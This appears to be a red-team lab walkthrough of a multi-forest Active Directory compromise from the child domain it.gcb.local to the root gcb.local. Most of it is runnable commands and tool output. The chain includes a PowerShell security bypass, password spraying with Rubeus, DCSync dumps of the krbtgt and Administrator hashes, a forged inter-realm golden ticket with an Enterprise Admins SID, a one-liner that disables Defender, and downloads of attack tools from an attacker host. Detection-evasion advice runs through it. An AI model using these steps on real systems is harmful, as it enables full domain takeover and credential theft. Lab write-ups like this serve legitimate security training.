

In Path 7, we're shifting our focus to a multi-forest trust exploitation scenario involving IT-DC, GCB-DC, and a Windows workstation. The objective is to pivot across trust boundaries, gain domain dominance in both forests, and escalate to Enterprise Admin in the root forest. Based on the topology and steps described, here's the path we're likely to follow:
We begin by leveraging clear-text credentials that were previously acquired from multiple forests, specifically by joining password patterns or reuse between users across these forests. This will allow us to authenticate against a domain in one forest even if the password was originally harvested in another. Using these credentials, we will modify Active Directory ACLs to escalate privileges within a target domain.
Once we have control over the necessary permissions, we escalate to Domain Admin inside the GCB forest. This step will provide us with administrative rights over GCB-DC, enabling us to manipulate the domain configuration and trust relationships as needed.
Now with Domain Admin privileges in gcb.local, we will initiate a cross-forest pivot to compromise the Vault Forest. The Vault Forest is likely the most critical part of the environment, holding sensitive assets or credentials. Compromising it will be the ultimate goal of this phase, and it will be achieved using trust relationships and inter-realm authentication mechanisms.
When planning and executing multi-forest attacks, the source of the payload is just as important as the payload itself. A domain admin from a child domain logging into the forest root domain controller is a red flag for defenders, which is why we should avoid doing so directly. Instead, we will pivot using alternative methods such as token impersonation, Pass-the-Hash, or by targeting weaker trust relationships that provide lateral movement without triggering alerts.
The ability to move across forests is highly dependent on how trusts are configured, and understanding SID history abuse becomes critical in such scenarios. By carefully selecting which credentials we use and how we move between domains, we can reduce the risk of detection while still achieving full forest dominance.
InvisiShell on IT-DC
Let's initiate a new CMDLet and do the proper PowerShell security features bypass.
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /ve /t REG_SZ /d "%~dp0InShellProf.dll" /f
powershell
set COR_ENABLE_PROFILING=
set COR_PROFILER=
REG DELETE "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /fOnce the new PowerShell session is initiated after running InvisiShell, we can then execute the following AMSI bypass into the current session.
Bruteforce credential with Rubeus
Back to the ESCROWs files we found, 1 from MSP-DC01 from msp.local and the other one from ACC-DATA from gcbacc.local.


If we combine both found credentials it its possible to see that it creates a single word "Adm1n!stertheC0mp@ny".
The Rubeus brute force command was specifically designed for exactly our scenario, testing one password against many users. Rubeus handles this internally with optimized Kerberos requests, proper error code interpretation, and built-in OPSEC features like randomized delays when we use the /opsec flag. It stops immediately when finding valid credentials.The tool is compiled C# rather than interpreted PowerShell, making it significantly faster for large-scale operations.
The tool will automatically test each user and stop immediately upon finding a valid credential, providing output that includes the username, domain, and the ticket information.
Enumerating Orgadmin's Groups
We were able to find who is the owner of the credentials we combined, it belongs to orgadmin user. Let's now enumerate what group Orgadmin belongs to, and we will accomplish this task using ADModule
Import-Module .\Microsoft.ActiveDirectory.Management.dll
Import-Module .\ActiveDirectory\ActiveDirectory.psd1
Get-ADUser -Identity 'orgadmin' -Properties MemberOf | Select-Object -ExpandProperty 'MemberOf'

As we can see from our enumeration, orgadmin user belongs to Organization Admins.
Get-ADGroup -Identity 'organizationadmins' -Properties *


Let's now leverage our privileges to orgadmin user, by requesting his TGT and Injecting it into our current session
Rubeus.exe asktgt /user:orgadmin /password:"Adm1n!stertheC0mp@ny" /domain:it.gcb.local /opsec /force /ptt
klist

Enumerating ACLs
Now, with orgadmin privileges, let's enumerate ACLs and find out if we do some interesting privileges inside this domain. The quick and easiest way is by using Find-InterestingDomainAcl from PowerView.ps1.
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -Match 'orgadmin'}

We can see above from our enumeration, that our user Orgadmin really have some important rights here. The user contains DS-Replication-Get-Changes-In-Filtered-Set, DS-Replication-Get-Changes and DS-Replication-Get-Changes-All.
DCSync
With the replications rights we already have, we can simply do a DCSync attack and request for KRBTGT's credentials, We will use Saftykatz.exe to accomplish this task.
.\SafetyKatz.exe "privilege::debug" "lsadump::dcsync /user:it\krbtgt /domain:it.gcb.local" "exit"

DCSync - KRBTGT
.#####. mimikatz 2.2.0 (x64) #19041 Dec 23 2022 16:49:51 .## ^ ##. "A La Vie, A L'Amour" - (oe.eo) ## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com ) ## \ / ## > https://blog.gentilkiwi.com/mimikatz '## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com ) '#####' > https://pingcastle.com / https://mysmartlogon.com ***/ mimikatz(commandline) # privilege::debug Privilege '20' OK mimikatz(commandline) # lsadump::dcsync /user:it\krbtgt /domain:it.gcb.local [DC] 'it.gcb.local' will be the domain [DC] 'it-dc.it.gcb.local' will be the DC server [DC] 'it\krbtgt' will be the user account [rpc] Service : ldap [rpc] AuthnSvc : GSS_NEGOTIATE (9) Object RDN : krbtgt ** SAM ACCOUNT ** SAM Username : krbtgt Account Type : 30000000 ( USER_OBJECT ) User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT ) Account expiration : Password last change : 5/26/2019 1:29:34 AM Object Security ID : S-1-5-21-948911695-1962824894-4291460450-502 Object Relative ID : 502 Credentials: Hash NTLM: ae5ef6353b190da04cc7a63b79895e5e ntlm- 0: ae5ef6353b190da04cc7a63b79895e5e lm - 0: a3d667af3465808779b7f9e7737f3753 Supplemental Credentials: * Primary:NTLM-Strong-NTOWF * Random Value : b2bdedd4bd4a696123c954538aa8d325 * Primary:Kerberos-Newer-Keys * Default Salt : IT.GCB.LOCALkrbtgt Default Iterations : 4096 Credentials aes256_hmac (4096) : 62b85ee1e26d8f98f62090a8ac69a258fd32000ac5d3d4691aea2bbba72a226c aes128_hmac (4096) : 8744ae70f355f08ac1cb5256b21421ca des_cbc_md5 (4096) : a1c18319fd85a283 * Primary:Kerberos * Default Salt : IT.GCB.LOCALkrbtgt Credentials des_cbc_md5 : a1c18319fd85a283 * Packages * NTLM-Strong-NTOWF * Primary:WDigest * 01 31752cbf2a016cdae8bdf1c235485d33 02 26340a9486b3579c5d718366cac9c5e4 03 2998de3699f99d1b05d426592f594311 04 31752cbf2a016cdae8bdf1c235485d33 05 26340a9486b3579c5d718366cac9c5e4 06 8054ae765d906734e147cb6592d87fb3 07 31752cbf2a016cdae8bdf1c235485d33 08 9309702e2cfdf98d0e972a1be174f90d 09 9309702e2cfdf98d0e972a1be174f90d 10 60597bace8db1eb12ca47894f94a295c 11 11818387f57e58031ddbe2f6ae8c6bf0 12 9309702e2cfdf98d0e972a1be174f90d 13 81ae74cc35647c616afedb858a18825f 14 11818387f57e58031ddbe2f6ae8c6bf0 15 6be3516720282c3eda483f525a4886dd 16 6be3516720282c3eda483f525a4886dd 17 d2ad57cc28290862d5c4d97ea9aea601 18 573d370a6125e082012f7a5f5bb1701b 19 adba4db1519b64532676853f9bb21915 20 017b7a93546d3beed1f378b9d5bf1d38 21 76fca3947a80f513a17e4f8280e42154 22 76fca3947a80f513a17e4f8280e42154 23 c7108a26cf6508de4599d82050a7fd3a 24 65874095f943013497753f3b7df6ec1b 25 65874095f943013497753f3b7df6ec1b 26 879253728195897911160f6e78ffebaf 27 8e6b3ee0002c2d06b562ee0bdd0edfdd 28 98b1a2afc01fef11f0fcf95f9d11317d 29 60919e56073d2da726d14406cbe411d8 mimikatz(commandline) # exit
DCSync - Administrator
mimikatz(commandline) # lsadump::dcsync /user:it\Administrator /domain:it.gcb.local [DC] 'it.gcb.local' will be the domain [DC] 'it-dc.it.gcb.local' will be the DC server [DC] 'it\Administrator' will be the user account [rpc] Service : ldap [rpc] AuthnSvc : GSS_NEGOTIATE (9) Object RDN : Administrator ** SAM ACCOUNT ** SAM Username : Administrator Account Type : 30000000 ( USER_OBJECT ) User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD ) Account expiration : Password last change : 5/28/2019 3:47:25 AM Object Security ID : S-1-5-21-948911695-1962824894-4291460450-500 Object Relative ID : 500 Credentials: Hash NTLM: d69fe53a32594b3461f954da18a41829 ntlm- 0: d69fe53a32594b3461f954da18a41829 ntlm- 1: c87a64622a487061ab81e51cc711a34b lm - 0: bbabd825f750d1f65336050075693eab Supplemental Credentials: * Primary:NTLM-Strong-NTOWF * Random Value : 48a1e01bb6d6e7fd7a6b031516d08647 * Primary:Kerberos-Newer-Keys * Default Salt : IT.GCB.LOCALAdministrator Default Iterations : 4096 Credentials aes256_hmac (4096) : dc36352b88a8f332112d9b6d23bbae2b9a2a0a75188fc0011ee406c829371999 aes128_hmac (4096) : c47ef5d828b01c05ad339104bea5ba85 des_cbc_md5 (4096) : 856e2f1fa1d36ebc OldCredentials aes256_hmac (4096) : bbdb52a6e782dbb4e960df121e760018667a029854dd86f7677a16882007ffea aes128_hmac (4096) : 153f4b8ed1b9c0d4370a731cb496553f des_cbc_md5 (4096) : 6462297f34ad54ae OlderCredentials aes256_hmac (4096) : 6ee5d99e81fd6bdd2908243ef1111736132f4b107822e4eebf23a18ded385e61 aes128_hmac (4096) : 6508ee108b9737e83f289d79ea365151 des_cbc_md5 (4096) : 31435d975783d0d0 * Primary:Kerberos * Default Salt : IT.GCB.LOCALAdministrator Credentials des_cbc_md5 : 856e2f1fa1d36ebc OldCredentials des_cbc_md5 : 6462297f34ad54ae * Packages * NTLM-Strong-NTOWF * Primary:WDigest * 01 022de4e09f6abaf89c6258c6dadc9567 02 086d1b3a3ee63d4fc42e819af7d7f17c 03 9ba336e786a4959d62184ee60cddf39f 04 022de4e09f6abaf89c6258c6dadc9567 05 f3999440113de7bee5ed4739735036f9 06 f22a5f88437be074be4c4bcc035616de 07 4abfe538604ef96231cf10617d5eae2b 08 6df855a4f16912a3b275c4eee5a14404 09 3673a1204d07e899310d002523674683 10 96448dce9787a39144a03b33efbfdc21 11 533a5dd8297e8903ebe5c81159b0048a 12 6df855a4f16912a3b275c4eee5a14404 13 c2d795728452932b9ad93e15cdd99b65 14 197c20003a00f263154dc35ed77e4d48 15 e8350c128a03bc32eeb2963e48a17e54 16 a3c69a598f9638eff148cf084cd7aca0 17 5dd4e0bcd520a55c183aefa056144112 18 baf427ea3f91fe352eece6a756acc92b 19 d118603bc8ea535ac6914a0eddebdede 20 1bc79a53df8200652e8cb611c0ec8f1a 21 7b6fa5be968e55c3958fc2d597012b39 22 e2b60c5c90d9ad926136dd6e82cb7620 23 d7855c57159743238658c86cbbf54b04 24 00f7bb4b5a5c84464f9f327fa662fc38 25 7d1dfb9096e9428254de98094c4e5b15 26 9466b9fff400a1aea2e3d37f8b5d6b83 27 425135b26cbcab6fd1e5f59ee1da23ee 28 1d846e22d081534b876fca6bbbeade34 29 08aca799afce9fc0e9e3650e239dd0cb mimikatz(commandline) # exit
As far as we remember during our enumeration phase right in the beginning, it.gcb.local is child-domain of gcb.local which is it root domain.
Get-ADTrust -Filter *

Now that we were able to compromise the whole child domain it.gcb.local, escalating our privileges to to Enterprise Admins and compromising gcb.local the parent domain is even easier and simple.
Cross-domain attacks, specifically moving from a child domain to the forest root by abusing the krbtgt account, rely on the fundamental weaknesses in how Active Directory handles SID history and inter-realm Kerberos trust. When we compromise a child domain, we do not immediately have control over the forest, but through golden ticket attacks with manipulated SID history, we can escalate privileges and obtain the krbtgt hash of the forest root, effectively gaining complete control.
The forest is the true security boundary in Active Directory, meaning that domain-level security measures cannot prevent escalation if we control a child domain. Each domain within the forest shares a transitive trust relationship, allowing authentication tokens to be exchanged between domains. If an attacker controls one domain, they can forge authentication tickets that appear legitimate to other domains in the same forest. By manipulating the SID history attribute in a golden ticket, an attacker can inject a forest root Domain Admin SID (519) into their forged ticket, making them effectively an Enterprise Admin. Since the forest root krbtgt account is shared across the entire forest, compromising it means compromising every domain within that forest. This attack works because Active Directory trusts the tickets issued by child domains when they contain valid inter-realm keys, which are derived from the krbtgt account.
Once we gave forged our Golden ticket, let's access the Domain controller.
winrs -r:it-dc.gcb.local cmd

A domain admin from a child domain should not normally be logging into the forest root domain controller, making it a red flag. However, we can evade detection by using a domain controller machine account instead of a domain administrator account. By injecting the SID of domain controllers (516) and Enterprise Admins (519) into our golden ticket
Let's start by enumerating both Domain's SIDs first using ADModule.
Invoke-WebRequest -Uri http://192.168.100.41:443/ADModule-master.zip -OutFile "C:\ADModule-master.zip" -UseBasicParsing
Expand-Archive -Path "C:\ADModule-master.zip" -DestinationPath "C:\"
Import-Module .\Microsoft.ActiveDirectory.Management.dll
Import-Module .\ActiveDirectory\ActiveDirectory.psd1
Get-ADDomain -Server 'it.gcb.local'

Get-ADDomain -Server 'gcb.local'

it.gcb.local SID: S-1-5-21-948911695-1962824894-4291460450
gcb.local SID: S-1-5-21-2781415573-3701854478-2406986946
We use Rubeus to create a Golden Ticket for the administrator account in the child domain (it.gcb.local). However, by injecting the Enterprise Admins SID from the forest root, we make the forged TGT look like it belongs to an Enterprise Admin in the entire forest. When this ticket is used, the forest root domain controller trusts it and grants privileged access to the entire AD forest.
This is the core technique that enables child-to-forest root escalation using SID history abuse.
Import Rubeus into IT-DC.
Invoke-WebRequest -Uri http://192.168.100.41:443/Rubeus.exe -OutFile "C:\Rubeus.exe" -UseBasicParsing
Forging the Inter-realm Golden ticket
Rubeus.exe golden /user:Administrator /id:500 /domain:it.gcb.local /sid:S-1-5-21-948911695-1962824894-4291460450 /groups:513 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /aes256:62b85ee1e26d8f98f62090a8ac69a258fd32000ac5d3d4691aea2bbba72a226c /ptt

With this newly forged inter-realm Golden ticket injected into our session, we can now access GCB.LOCAL Domain Controller (GCB-DC).
winrs -r:gcb-dc.gcb.local cmd

InvisiShell
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /ve /t REG_SZ /d "%~dp0InShellProf.dll" /f
powershell
set COR_ENABLE_PROFILING=
set COR_PROFILER=
REG DELETE "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /fDisable Defender
Set-MpPreference -DisableRealtimeMonitoring 1; Set-MpPreference -DisableBehaviorMonitoring 1; Set-MpPreference -DisableScriptScanning 1; Set-MpPreference -DisableIntrusionPreventionSystem 1; Set-MpPreference -DisableNetworkProtection 1; Set-MpPreference -SubmitSamplesConsent 2; Set-MpPreference -MAPSReporting 0; Set-MpPreference -PUAProtection 0Import SafetyKatz to GCB-DC
Invoke-WebRequest -Uri http://192.168.100.41:443/SafetyKatz.exe -OutFile "C:\SafetyKatz.exe" -UseBasicParsing
.\SafetyKatz.exe "privilege::debug" "lsadump::dcsync /user:gcb\krbtgt" "exit"
KRBTGT
.\SafetyKatz.exe "privilege::debug" "lsadump::dcsync /user:gcb\krbtgt" "exit" .#####. mimikatz 2.2.0 (x64) #19041 Dec 23 2022 16:49:51 .## ^ ##. "A La Vie, A L'Amour" - (oe.eo) ## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com ) ## \ / ## > https://blog.gentilkiwi.com/mimikatz '## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com ) '#####' > https://pingcastle.com / https://mysmartlogon.com ***/ mimikatz(commandline) # privilege::debug Privilege '20' OK mimikatz(commandline) # lsadump::dcsync /user:gcb\krbtgt [DC] 'gcb.local' will be the domain [DC] 'gcb-dc.gcb.local' will be the DC server [DC] 'gcb\krbtgt' will be the user account [rpc] Service : ldap [rpc] AuthnSvc : GSS_NEGOTIATE (9) Object RDN : krbtgt ** SAM ACCOUNT ** SAM Username : krbtgt Account Type : 30000000 ( USER_OBJECT ) User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT ) Account expiration : Password last change : 5/25/2019 11:32:32 PM Object Security ID : S-1-5-21-2781415573-3701854478-2406986946-502 Object Relative ID : 502 Credentials: Hash NTLM: 4c478fa3683aad18054ee613b6eed11b ntlm- 0: 4c478fa3683aad18054ee613b6eed11b lm - 0: d2aabcb512905ec705b687f40b6a4e6e Supplemental Credentials: * Primary:NTLM-Strong-NTOWF * Random Value : 1c35be77a6c4b0a6f5119bbf8c0dcb4f * Primary:Kerberos-Newer-Keys * Default Salt : GCB.LOCALkrbtgt Default Iterations : 4096 Credentials aes256_hmac (4096) : ba949403d292a975adf5a1bce60bbf8a1bfd20d406b1b30c18beafe532b33840 aes128_hmac (4096) : f045d66af758aea91882810273e21d47 des_cbc_md5 (4096) : 4c54587c57fef7c1 * Primary:Kerberos * Default Salt : GCB.LOCALkrbtgt Credentials des_cbc_md5 : 4c54587c57fef7c1 * Packages * NTLM-Strong-NTOWF * Primary:WDigest * 01 a843f4e540fd64c86997509898fb4123 02 b84817f8bee1e49ae0bfff776a036227 03 64d60b9c1002b0e6d2c3d5281763bc0a 04 a843f4e540fd64c86997509898fb4123 05 b84817f8bee1e49ae0bfff776a036227 06 c63167f972559aec35055f70d93a5fd7 07 a843f4e540fd64c86997509898fb4123 08 9ab15d6a68d662e6b566b1dd08d4dc99 09 9ab15d6a68d662e6b566b1dd08d4dc99 10 903e49277a3013f0c22160354e20a8d4 11 5f43ff4fdc37026cfce731ef43920e27 12 9ab15d6a68d662e6b566b1dd08d4dc99 13 f7c0a746b5ebdc935fec01557ad85d01 14 5f43ff4fdc37026cfce731ef43920e27 15 a23de3842e04b9a468faa75a91ea9e55 16 a23de3842e04b9a468faa75a91ea9e55 17 d735bfc1483efb7cf4f81209aa6fe239 18 4489ea3a38dbea226e22b908b7854b03 19 1eff54f14718b94688dcfc86be8d4fa7 20 181301645d14f5cfe69e618a4ada4e6e 21 4335a3fc5c7bfc08b0b0e8f5b6c7a588 22 4335a3fc5c7bfc08b0b0e8f5b6c7a588 23 9db86e1da5cf159f233638db9bf25e16 24 c06388b4f90a6203c71ae31c6538958e 25 c06388b4f90a6203c71ae31c6538958e 26 70ebcda7d4d3a685ea6362d892322bb7 27 14157a9373a8e1574e14c2798f6f2ddb 28 d7aaf22aababd70bd333b92f73d942fe 29 8310eda4f1a013bc001f107da903fc29 mimikatz(commandline) # exit